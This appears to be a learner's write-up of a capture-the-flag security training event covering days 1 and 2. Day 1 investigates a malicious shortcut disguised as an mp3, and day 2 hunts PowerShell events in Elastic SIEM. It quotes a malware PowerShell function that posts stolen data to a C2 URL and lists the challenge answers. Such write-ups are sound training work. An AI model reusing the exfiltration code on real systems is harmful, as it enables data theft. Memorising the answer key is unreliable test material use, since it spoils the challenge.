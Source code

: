 Day 1 - Maybe SOC-mas music, he thought, doesn't come from a store?
Learning Objectives
Learn how to investigate malicious link files.
Learn about OPSEC and OPSEC mistakes.
Understand how to track and attribute digital identities in cyber investigations.

 It’s about a youtube converting website claiming to be safe. After investigating the website, get a youtube link to convert it. Download the zipfile and there’s 2 file after extraction. using the “file” command to check the file’s contents. song.mp3 looks okay but the somg.mp3 looks very suspicious, the output of states that it an “MS Windows shortcut”. So, investigate more with exifTool, and there you can see that this file, somg.mp3, is pulls file from remote server and saves it in the target directory. Next, go to the remote server, ‘https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1‘, to see it’s content, you should be able to see who created it and the command and control server(c2 server)”:

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

To investigate more, google dork it, remote server shows that it’s githubuser, and we a string from the it, 
Created by the one and only M.M. site:github.com
$c2Url = "http://papash3ll.thm/data" site:github.com

https://github.com/MM-WarevilleTHM/M.M
This will show who M.M. = Mayor Malware

There you have it, with all that information, you successfully completed the learning objectives.


Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 
Answer: Tyler Ramsbey

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?
Answer: http://papash3ll.thm/data

Who is M.M? Maybe his Github profile page would provide clues?
Answer: Mayor Malware

What is the number of commits on the GitHub repo where the issue was raised?
Answer: 1

===================================================

Day 2 - One man's false positive is another man's potpourri.
Tools:
elastic SIEM
cyberchef
change management system

Creds are given which is elastic:elastic, log in to elastic siem, 
pull up evens > open menu > select discover > click where it says "15 minutes ago" that is the from, select absolute , change date to Dec 1st, 2024 0900, click where it says "now", absolute change to same date 0930. That is same day and 30 mins of log.
Since we are looking for events related to PowerShell, we would like to know the following details about the logs. 

    The hostname where the command was run. We can use the host.hostname field as a column for that.
    The user who performed the activity. We can add the user.name field as a column for this information.
    We will add the event.category field to ensure we are looking at the correct event category.
    To know the actual commands run using PowerShell, we can add the process.command_line field.
    Finally, to know if the activity succeeded, we will add the event.outcome field.



What is the name of the account causing all the failed login attempts?
Answer: service_admin
How many failed logon attempts were observed?
Answer: 6791
What is the IP address of Glitch?
Answer: 10.0.255.1
When did Glitch successfully logon to ADM-01? Format: MMM D, YYYY HH:MM:SS.SSS
Answer: Dec 1, 2024 08:54:39.000
What is the decoded command executed by Glitch to fix the systems of Wareville?
Answer: Install-WindowsUpdate -AcceptAll -AutoReboot

===================================================

Day 3 - Even if I wanted to go, their vulnerabilities wouldn't allow it.
























